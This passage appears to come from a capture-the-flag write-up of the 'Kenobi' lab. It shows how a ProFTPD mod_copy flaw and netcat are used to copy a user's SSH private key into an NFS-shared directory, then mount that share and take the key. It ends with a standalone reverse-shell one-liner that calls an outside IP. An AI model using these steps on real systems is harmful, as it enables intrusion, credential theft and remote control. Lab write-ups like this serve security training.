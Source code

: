 ![[kenobi7.png]]
As we need to get our hands on the id_rsa file and we see that we have the ProFTPD on the target, we need to figure out a way to get access to that file through the FTP service. To check if we have any known vulnerabilities regarding the ProFTPD using Searchsploit. We see that we have the vulnerability named File Copy. We used the searchsploit to download the exploit file using the -m option. Here, we see that we need to run two significant commands: CPFR which means Copy From, and CPTO means Copy To.  So we can use these commands to copy the id_rsa file from its location to a place from where we can acquire it.

```python
searchsploit ProFTPD 1.3.5
searchsploit -m 36742
cat 36742.txt
```

#### Connecting to the ftp service using Netcat - 
We used netcat to connect to the FTP service on the target machine. We used the CPFR command to copy the id_rsa from the home directory of the Kenobi user. Then we used the CPTO command to provide the destination address for the id_rsa file. We transferred the file to /var directory.
```python
nc 10.10.101.175 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

## Mounting to the /var 
Now that we have successfully transferred the id_rsa into the var directory, we can mount the /var directory so that we can access the id_rsa files on our local machine. We created a directory by the name of /ignite inside the /mnt directory. Next, we used the mount command to mount the remote var directory to our local ignite folder. Moving to the ignite directory we found the id_rsa file. Changing the permissions of the id_rsa file to make it ready to connect via SSH.
```python
sudo mkdir /mnt/ignite
mount 10.10.101.175:/var /mnt/ignite
cd /mnt/ignite/tmp
ls
cp id_rsa /root
cd /root
chmod 600 id_rsa
```

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.47.177 4444 >/tmp/f 